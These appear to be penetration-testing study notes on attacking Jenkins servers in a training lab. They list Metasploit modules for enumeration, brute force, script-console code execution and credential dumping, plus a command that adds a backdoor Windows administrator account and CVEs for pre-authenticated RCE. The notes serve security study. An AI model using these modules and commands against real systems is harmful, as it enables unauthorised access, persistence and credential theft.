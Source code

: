 
- Often installed on Windows servers running as the all-powerful SYSTEM account
- Jenkins runs on Tomcat port 8080 by default.
- Utilizes port 5000 to attach slave servers

==Enumeration==

- `msf> use auxiliary/scanner/http/jenkins_enum`
- Command without auth: `msf> use auxiliary/scanner/http/jenkins_command`

==**Brute Force**==

`msf> use auxiliary/scanner/http/jenkins_login`

We can fingerprint Jenkins quickly by the telltale login page.

==Attacking==

**Code Execution**

- http://jenkins.inlanefreight.local:8000/script

**Options**

- `exploit/multi/http/jenkins_script_console`
- Create a user: `net user john 'Password123!' /add && net localgroup Administrators john /add`

**Post**

Dump Creds:`msf> post/multi/gather/jenkins_gather`

**==Vulnerabilities==**

CVE-2018-1999002 and CVE-2019-1003000 to achieve pre-authenticated remote code execution, bypassing script security sandbox protection during script compilation.
